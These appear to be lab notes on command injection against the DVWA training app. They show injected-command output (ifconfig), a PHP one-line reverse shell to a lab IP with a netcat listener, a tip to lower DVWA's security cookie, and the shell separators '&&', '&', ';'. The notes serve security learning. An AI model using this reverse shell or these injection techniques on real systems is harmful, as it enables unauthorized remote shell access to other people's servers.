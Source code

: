 # Command Based Injections
Command injection is a cyber attack that involves executing arbitrary commands on a host operating system (OS). Typically, the threat actor injects the commands by exploiting an application vulnerability, such as insufficient input validation.

### DVWA - Command Injection
![alt text](assets/comi1.png)
Security Level - LOW
```
PING 192.168.42.131 (192.168.42.131) 56(84) bytes of data.
64 bytes from 192.168.42.131: icmp_seq=1 ttl=64 time=4.22 ms
64 bytes from 192.168.42.131: icmp_seq=2 ttl=64 time=0.474 ms
64 bytes from 192.168.42.131: icmp_seq=3 ttl=64 time=0.209 ms
64 bytes from 192.168.42.131: icmp_seq=4 ttl=64 time=0.374 ms

--- 192.168.42.131 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3046ms
rtt min/avg/max/mdev = 0.209/1.320/4.223/1.678 ms
docker0: flags=4099  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:23:a6:77:63  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163  mtu 1500
        inet 192.168.42.128  netmask 255.255.255.0  broadcast 192.168.42.255
        inet6 fe80::20c:29ff:feca:f770  prefixlen 64  scopeid 0x20
        ether 00:0c:29:ca:f7:70  txqueuelen 1000  (Ethernet)
        RX packets 1395101  bytes 1859019502 (1.7 GiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 232484  bytes 45814120 (43.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 18288  bytes 44876759 (42.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 18288  bytes 44876759 (42.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
We got the IP details about the server
- Reverse Shell - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- PHP One Line Reverse Shell `php -r '$sock=fsockopen("192.168.42.128",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
- Listen to the reverse Shell `nc -lvp 1234`
![alt text](assets/reverseshell.png)
### Woohooooo!!!
> Damn, this is quite exciting, interesting....
- To crack the "Impossible", "Hard" change the cookie security value to low so php allows the command injection.

## Use - '&&', '&', ';' 
